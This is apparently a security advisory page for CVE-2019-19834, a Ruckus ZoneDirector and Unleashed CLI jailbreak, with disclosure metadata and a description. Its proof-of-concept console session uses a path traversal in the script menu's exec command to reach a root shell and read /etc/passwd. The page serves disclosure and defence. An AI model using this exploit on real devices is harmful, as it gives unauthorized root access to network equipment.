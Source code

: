 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

severity: 'Medium'
alephid: ALEPH-2019004
cve: CVE-2019-19834
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'Ruckus CLI (ruckus_cli2) jailbreak'
---
```

This is a command injection vulnerability via a crafted CLI command.

`/bin/ruckus_cli2` is a CLI used by Ruckus for user interaction and run commands by their web interface. `ruckus_cli2` has a `script` menu that can run limited set of stored scripts. `exec` command in that menu is vunrable to path traversal, and can be used to run `/bin/sh` in order to escape to a busybox shell. 

Information about the exploitation of the vulnerability can be found in our [blog post](/2020/01/13/ruckus-wireless/) or the [36C3 talk](https://youtu.be/bmGtG55Zz1Q?t=802).


## Proof Of Concept ##
Jail breaking Ruckus CLI using this exploit
```
Please login: admin
Password: 
Welcome to Ruckus Unleashed Network Command Line Interface

ruckus> enable 
ruckus# debug 
You have all rights in this mode.
ruckus(debug)# script 
ruckus(script)# exec ../../../bin/sh


Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$ echo $USER
admin

ruckus$ grep $USER /etc/passwd
admin:$1$-----------:0:0:root:/:/bin/sh
```
